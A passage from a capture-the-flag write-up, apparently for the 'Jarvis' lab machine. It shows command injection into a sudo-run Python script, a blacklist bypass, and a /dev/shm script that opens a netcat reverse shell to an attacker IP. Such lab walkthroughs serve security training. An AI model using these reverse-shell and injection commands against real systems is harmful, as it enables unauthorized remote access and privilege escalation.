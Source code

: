 ```bash
nc -nlvp 443
```

> **Victimem Machine**:

```bash
which nc
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
  $(/bin/nc -e /bin/bash 10.10.14.3 443)
# :( Blacklisted
```

<br/>
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The easiest way to bypass the security restriction, or rather, to **avoid it**, is to create a malicious script that is responsible for sending the **Reverse Shell** and catch it with `nc` on port **443** of my attacking machine. I run again the **simpler.py** script but this time I inject a command where my malicious script is invoked and I get the connection without problems because the **"/"** is not included in the **blacklist**, now I just have to perform again the console treatment and continue the engagement. I can now access the first flag and I also find that the `systemctl` binary has the **SUID** bit enabled, a misconfiguration that I must investigate immediately.

> **Victime Machine**:

```bash
pushd /dev/shm/
touch reverse_shell.sh
nano !$
cat !$
```

> **reverse_shell.sh**:

```bash
#!/bin/bash

/bin/nc -e /bin/bash 10.10.14.3 443
```

```bash
chmod +x !$
ls -l !$
```
